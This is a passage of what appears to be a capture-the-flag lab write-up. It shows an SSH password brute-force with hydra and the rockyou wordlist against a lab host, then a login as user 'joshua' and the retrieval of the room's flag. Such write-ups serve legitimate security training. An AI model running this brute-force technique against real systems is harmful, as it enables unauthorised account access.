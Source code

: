 

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250502231125.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250502232057.png)

We got an user named `joshua`, let's bruteforce our way in:


```
hydra -l joshua -P /usr/share/wordlists/rockyou.txt include.thm ssh
[22][ssh] host: include.thm   login: joshua   password: 123456
```

We can now go in ssh:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250502232411.png)


We can now go into `/var/www/html` and get the flag:

```
joshua@filepath:/var/www/html$ ls -la
total 52
drwxr-xr-x 4 ubuntu ubuntu 4096 Mar 12  2024 .
drwxr-xr-x 3 root   root   4096 Nov 10  2021 ..
-rw-rw-r-- 1 ubuntu ubuntu  351 Feb 21  2024 .htaccess
-rw-rw-r-- 1 ubuntu ubuntu   38 Feb 22  2024 505eb0fb8a9f32853b4d955e1f9123ea.txt
-rw-rw-r-- 1 ubuntu ubuntu  257 Feb 23  2023 api.php
-rw-rw-r-- 1 ubuntu ubuntu  932 Feb 26  2024 auth.php
-rw-rw-r-- 1 ubuntu ubuntu 3504 Feb 21  2024 dashboard.php
-rw-rw-r-- 1 ubuntu ubuntu  429 Feb 21  2024 index.php
-rw-rw-r-- 1 ubuntu ubuntu 1000 Feb 20  2024 login.php
-rw-rw-r-- 1 ubuntu ubuntu   81 Nov  5  2023 logout.php
-rw-rw-r-- 1 ubuntu ubuntu  444 Mar 12  2024 profile.php
drwxrwxr-x 2 ubuntu ubuntu 4096 Mar 12  2024 templates
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 20  2024 uploads
```

```
joshua@filepath:/var/www/html$ cat 505eb0fb8a9f32853b4d955e1f9123ea.txt
THM{505eb0fb8a9f32853b4d955e1f9123ea}
```




![](CYBERSECURITY/IMAGES/Pasted%20image%2020250502232613.png)






